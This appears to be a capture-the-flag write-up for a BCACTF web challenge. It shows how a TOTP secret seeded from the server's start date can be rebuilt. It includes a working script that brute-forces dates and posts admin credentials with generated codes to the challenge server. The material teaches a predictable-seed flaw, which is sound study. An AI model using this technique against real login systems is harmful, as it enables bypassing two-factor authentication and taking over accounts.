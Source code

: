 ## Solve Process  
We are greeted with this webpage  
![image44](/static/writeups/photos/image44.png)

So it seems we need to someone login to the provided admin account using an unknown 2FA code. Lets take a look at the source code.  
```python
totp = pyotp.TOTP(result[0])

if totp.verify(request.form['totp']):
    with open('../flag.txt') as file:
        return render_template('portal.html', message=file.read())
```

It seems pyotp is used to generate the OTPs. Pyotp works by taking in a secret, and it generates an otp which is only valid for 30 seconds. As such, for this challenge, as long as we know the secret, we are able to generate our own otp to use.

Heres where the secret is generated  
```python
random.seed(datetime.datetime.today().strftime('%Y-%m-%d'))
...
if __name__ == '__main__':
    if len(sys.argv) == 3:
        SECRET_ALPHABET = 'ABCDEFGHJKLMNOPQRSTUVWXYZ234567'
        
        totp_secret = ''.join([random.choice(SECRET_ALPHABET) for _ in range(20)])

```
The important thing to note here that the pseudo random generator in python has been **seeded**. Python’s random module is not truly random, and needs a set seed in order to begin it’s random process. If we provide it with the same seed on two separate runs, then both those runs will produce the same outcome.

The random has been seeded with the current (server start time)’s “Year-Month-Date” As the input seed. If we can determine the input seed, then we will be able to determine the totp\_secret that is generated by the random module.

We don’t know the exact time the server started, but it isn’t too difficult to guess. We can just start from the CTF’s start date (2024-06-08) and work our way back in time until the server tells us the OTP generated from this seed is valid.

So the solve script process is

1. Start from the current date and iterate back 1 day each time  
2. In each loop, seed the rng with that loop’s respective date  
3. Generate the totp\_secret that the respective date would have generated  
4. Send a POST request to the server to verify whether the OTP generated is correct  
5. Get the response and print it if the OTP generated is successful

```python
import random
import datetime
import pyotp
import requests

SECRET_ALPHABET = 'ABCDEFGHJKLMNOPQRSTUVWXYZ234567'
current_date = datetime.datetime.today()
for i in range(100):
    back = current_date - datetime.timedelta(days=i)
    seed = back.strftime('%Y-%m-%d')

    # Seed the RNG
    random.seed(seed)

    # Using the seed, get the secret generated
    totp_secret = ''.join([random.choice(SECRET_ALPHABET) for _ in range(20)])

    # Using the secret, generate an OTP
    totp = pyotp.TOTP(totp_secret)

    # Try the OTP generated
    params = {'username': 'admin', 'password': 'admin', 'totp': totp.now()}
    result = requests.post('http://challs.bcactf.com:31772/', data=params)

    # If correct, then print the flag
    if 'incorrect' not in result.text:
        print(result.text)
        break

```

And we can retrieve our flag  
![image49](/static/writeups/photos/image49.png)